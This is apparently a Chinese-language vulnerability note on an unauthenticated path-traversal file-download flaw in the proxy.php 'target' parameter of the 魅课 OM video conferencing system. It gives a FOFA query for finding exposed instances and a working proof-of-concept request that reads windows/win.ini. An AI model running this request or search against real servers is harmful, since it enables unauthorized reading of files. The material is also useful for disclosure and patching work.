


# 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

```
魅课OM视频会议系统
```

## FOFA

```
app="OMEETING-OM视频会议"
```

## 漏洞复现

登录页面



验证POC

```
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

